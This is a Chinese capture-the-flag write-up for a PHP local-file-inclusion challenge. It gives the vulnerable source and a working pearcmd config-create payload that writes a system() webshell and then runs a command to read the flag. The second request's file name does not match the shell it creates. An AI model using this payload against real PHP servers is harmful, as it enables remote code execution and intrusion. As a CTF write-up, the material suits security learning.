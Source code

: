 ### Include 🍐

源码如下👇

```
<?php
    error_reporting(0);
    if(isset($_GET['file'])) {
        $file = $_GET['file'];
        
        if(preg_match('/flag|log|session|filter|input|data/i', $file)) {
            die('hacker!');
        }
        
        include($file.".php");
        # Something in phpinfo.php!
    }
    else {
        highlight_file(__FILE__);
    }
?>
```

在phpinfo里看到搜索register关键字，可以看到两个选项是打开状态，结合题目的那个梨(英文是pear)，那么这道题的思路就是pearcmd配合LFI，远程下载文件后再进行包含执行命令，不过这个题好像不出网，只能本地创建文件来包含了

![](./images/1697546478-image.png)

看到很多博客都有类似的wp，但是无法使用，不过在2022年的newstarctf里找到类似的题（可以说一模一样了。。。里面刚好有现成的wp

```
#payload
#在当前目录创建一个shell.php文件
?file=/usr/local/lib/php/pearcmd&+config-create+/<?=system($_GET[1])?>+./shell.php

?file=hello&1=cat /f*
```

拿到flag，注意在Firefox浏览器中的hackbar发包会不成功，因为会把<>括号转义成%3C、%3E，那么在生成的文件中就无法被执行，需要抓包后在上传payload

![](./images/1697546811-image.png)
